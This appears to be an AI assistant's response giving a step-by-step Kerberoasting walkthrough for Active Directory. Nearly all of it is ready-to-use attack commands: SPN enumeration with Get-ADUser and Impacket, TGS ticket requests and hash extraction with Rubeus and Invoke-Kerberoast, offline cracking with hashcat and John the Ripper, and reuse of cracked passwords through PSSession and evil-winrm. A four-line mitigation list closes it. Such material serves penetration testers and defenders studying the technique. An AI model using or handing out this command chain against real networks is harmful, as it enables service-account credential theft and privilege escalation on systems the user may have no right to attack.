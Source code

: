 

### **Step 1: Enumerate Domain Users with SPN**

Kerberoasting targets accounts with Service Principal Names (SPNs). First, enumerate users with SPNs.

**Command:**

```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Alternatively, using Impacket:

```bash
GetUserSPNs.py -dc-ip <Domain_Controller_IP> <DOMAIN>/<User>:<Password>
```

### **Step 2: Request a Ticket Granting Service (TGS) Ticket**

Once an SPN is found, request a TGS ticket for that service.

**Command:**

```powershell
GetUserSPNs.py -request -dc-ip <Domain_Controller_IP> <DOMAIN>/<User>:<Password>
```

or using Rubeus:

```powershell
Rubeus.exe kerberoast
```

### **Step 3: Extract and Save TGS Hashes**

The obtained TGS hash can be extracted for offline cracking.

**Command:**

```powershell
Rubeus.exe kerberoast /format:hashcat
```

or

```powershell
Invoke-Kerberoast | Format-Table -AutoSize
```

### **Step 4: Crack the TGS Hash Offline**

Use Hashcat to crack the extracted hash.

**Command:**

```bash
hashcat -m 13100 <hashfile> /path/to/wordlist.txt --force
```

or using John the Ripper:

```bash
john --format=krb5tgs --wordlist=/path/to/wordlist.txt <hashfile>
```

### **Step 5: Use the Obtained Credentials**

If the hash is successfully cracked, use the password to access the service or escalate privileges.

**Command to test access:**

```powershell
New-PSSession -ComputerName <Target_Machine> -Credential <DOMAIN>\<User>
```

or using Evil-WinRM:

```bash
evil-winrm -i <Target_IP> -u <User> -p <Password>
```

### **Mitigation Steps:**

- Enforce strong passwords for service accounts.
- Regularly rotate service account passwords.
- Implement the principle of least privilege.
- Monitor Kerberos ticket requests for anomalies.

Let me know if you need additional details or modifications!